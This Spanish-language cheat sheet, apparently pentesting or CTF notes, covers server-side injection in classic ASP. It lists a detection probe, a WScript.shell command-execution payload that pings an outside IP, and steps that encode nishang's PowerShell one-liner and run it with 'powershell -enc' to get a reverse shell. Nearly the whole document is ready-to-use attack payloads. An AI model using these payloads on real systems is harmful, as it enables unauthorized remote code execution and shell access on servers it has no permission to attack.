 ### VER SI ES VULNERABLE
```shell
<%response.write(7*7)%>
```

### EJECUTAR UN PING
```shell
<%response.write CreateObject("WScript.shell").Exec("cmd /c ping -n 1 10.10.16.7").StdOut.Readall()%>
```


### REVERSE SHELL
```shell
wget https://raw.githubusercontent.com/samratashok/nishang/refs/heads/master/Shells/Invoke-PowerShellTcpOneLine.ps1
mv Invoke-PowerShellTcpOneLine.ps1 reverse.ps1
#EDITARLO Y QUEDARSE SOLO CON LA LINEA DE CLIENT
cat reverse.ps1 | iconv -t utf-16le | base64 -w 0; echo

<%response.write CreateObject("WScript.shell").Exec("cmd /c powershell -enc ...").StdOut.Readall()%>
```
